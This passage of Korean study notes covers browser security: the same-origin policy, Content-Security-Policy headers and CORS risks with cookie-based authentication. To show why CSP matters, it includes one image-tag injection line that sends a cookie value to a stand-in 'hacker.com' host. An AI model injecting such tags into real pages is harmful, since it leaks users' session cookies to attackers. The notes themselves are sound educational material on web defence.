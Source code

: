 + window.open
+ window.opener

동일 출처 정책에 따라 브라우저에 보안 방화벽같은게 구현되어 있음

### 1.2. Content-Security-Policy

실제로 동작하는 브라우저 보안 정책(동일 출처 정책이 사용되는 한가지의 예)  
리소스를 다운 받을 때 사용할 수 있는 보안 정책

+ [콘텐츠 보안 정책(CSP)](https://developers.google.com/web/fundamentals/security/csp/?hl=ko)

HTTP 헤더(Content-Security-Policy)를 이용해, 동일하지 않은 출처에 대한 리소스를 불러올지 말지 결정할 수 있다.

응답에 포함시켜야 하는 헤더이다.  
(서버 개발자가 사용하는 기법)
```HTTP
Content-Security-Policy: script-src 'self' https://apis.google.com
```
'self'와 `https://apis.google.com`이 주소의 스크립트 태그만 허용하는 정책을 정의 

※ 이미지 태그를 삽입해 해킹하는 것도 가능, 이미지를 불러오려고 그 서버에 요청을 보내게 되므로(특히 이메일 해킹이 이런 기법으로...)
```
<img src="http://hacker.com/hahaha?cookie=asdfsdfe">
```
이런식으로 삽입해서;;

### 1.3. CORS(Cross-Origin Resource Sharing)

Ajax 요청을 보낼때 사용하는 보안 정책  
HTTP 관련 표준

서브측 구현과 클라이언트 측 구현 모두 필요함

+ 클라이언트 측 cross-origin 요청을 
안전하게 보낼 수 있는 방법을 정한 표준
+ 쉽게 말하면, 스크립트가 전혀 다른 출처를 갖는 API 서버를 사용하려고 하는 상황에서는 뭔가 추가적인 처리를 해주어야 한다는 것!

#### 1.3.1. Cross-origin 요청의 위험성

`mywebsite.com`에서 서비스 중인 웹 사이트는 `mywebsite.com/api` 에서 REST API를 통해 필요한 정보를 얻는다.   
`mywebsite.com/api` 경로에 대한 인증은 쿠키로 이루어지고 있다.

(쿠키는 브라우저에 내장된 저장소인데 인증이 쿠키로 이루어지고 있다는 것은 내가 요청을 보낼때 자동으로 포함이 되어 쿠키의 정보가 날아간다는 것)

그런데 만약 `evil.com` 웹 사이트의 스크립트에서 `mywebsite.com` API에 요청을 마음대로 보낼 수 있다면, 이미 `my-website.com` 도메인에 대해 브라우저에 저장된 쿠키를 이용해서 API를 마음대로 호출할 수 있을 것이다.

(쿠키에 인증 정보를 들어있다면, `evil.com`에서 요청을 보낸다면 인증이 된 요청이므로 계정정보나 게시글을 마음대로 삭제하거나 수정할 수 있다.)

출처가 같지 않은데 Ajax 요청을 보낼 수 있다는 것은 굉장히 위험할 수 있다.

#### 1.3.2. [Cross-origin 요청 예제](https://glitch.com/edit/#!/fds-cors-example?path=README.md:1:0)

+ IE8 이상의 모던 웹 브라우저는 cross-origin 요청에 대해 여러가지 제한을 두고 있다
+ cross-origin 요청을 허용하려면, 서버가 특별한 형태의 응답을 전송해야 한다.
+ 만약 서버가 cross-origin 요청을 허용하지 않으면, 웹 브라우저는 에러를 발생시킴
